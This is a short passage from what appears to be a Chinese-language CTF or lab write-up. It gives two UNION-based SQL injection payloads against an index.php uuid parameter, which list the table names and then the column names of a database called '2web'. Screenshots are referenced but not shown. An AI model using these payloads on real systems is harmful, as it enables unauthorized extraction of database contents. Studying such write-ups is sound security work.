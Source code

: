 注表名`index.php?uuid=1' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='2web' -%23-%20`
![upload successful](./images/pasted-795.png)

注字段名`index.php?uuid=1' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema='2web' and table_name='IS_KEY' -%23-%20`
![upload successful](./images/pasted-797.png)
